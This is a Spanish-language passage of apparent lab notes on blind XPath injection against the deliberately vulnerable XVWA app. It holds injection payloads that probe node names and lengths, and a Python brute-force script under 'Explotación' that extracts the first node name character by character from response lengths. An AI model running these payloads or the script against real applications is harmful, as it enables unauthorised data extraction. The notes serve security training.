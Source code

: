 De esta forma sabemos que empieza por la letra 'C' `' and substring(name(/*[1]),1,1)='C`

![Captura](./Imágenes/burpsuite_6.png)

De esta forma podemos saber la longitud de la primera etiqueta `' and string-length(name(/*[1]))='7`

![Captura](./Imágenes/burpsuite_8.png)


![Captura](./Imágenes/burpsuite_7.png)

Podemos automatizar este proceso con un [Script](Script.md)

---
## Explotación

**Script de fuerza bruta de inyecciones XPath**:

```python
#/usr/env/bin python3

from pwn import *

import requests, time, sys, pdb, string, signal

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://192.168.1.70/xvwa/vulnerabilities/xpath/"
characters = string.ascii_letters

def xPathInjection():

    data = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Data")

    for position in range(1, 8):
        for character in characters:
            post_data = {
                'search': "1' and substring(name(/*[1]),%d,1)='%s" % (position, character),
                'submit': ''
            }

            r = requests.post(main_url, data=post_data)

            if len(r.text) != 8681:
                data += character
                p2.status(data)
                break

    p1.success("Ataque de fuerza bruta concluido")
    p2.success(data)

```